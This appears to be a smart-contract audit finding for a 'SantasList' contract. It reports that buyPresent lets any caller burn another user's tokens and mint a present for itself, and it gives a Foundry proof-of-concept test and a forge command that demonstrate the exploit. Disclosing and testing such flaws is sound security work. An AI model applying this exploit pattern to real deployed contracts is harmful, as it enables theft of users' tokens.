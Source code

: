 ## Vulnerability Details
In the vulnerable `buyPresent` function, an attacker can exploit it by leveraging an extra nice user's address who has tokens to initiate the purchase of a present through the `buyPresent` function. This results in the burning of tokens from the unsuspecting user, followed by the unauthorized minting of additional presents. As a consequence, the attacker gains control over the present purchase mechanism, leading to a misalignment of user balances and compromising the intended functionality of the contract.

## Impact
The identified vulnerability poses a significant impact on the smart contract's functionality and security. By exploiting the flaw in the `buyPresent` function, an attacker can wrongfully burn tokens from the intended recipient `(presentReceiver)` and initiate the unauthorized minting of additional presents. 

## POC

In the test file add this to the state variable :
`address reciever = makeAddr("reciever");`
Then add this function to test the exploit:
```  
        function testAttackBuyPresent() public {
        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        // an extra nice user collects present
        vm.startPrank(user);
        santasList.collectPresent();
        vm.stopPrank();

        // buy present using extra nice user address
        vm.startPrank(reciever);
        santasList.buyPresent(user);
        vm.stopPrank();

        assertEq(santasList.balanceOf(user), 1);
        assertEq(santaToken.balanceOf(user), 0);

        assertEq(santasList.balanceOf(reciever), 1);
    }
```
run this command to test only this function and observe the exploit
`forge t --mt testAttackBuyPresent -vvvvv`

## Tools Used
Foundry & Manual Review
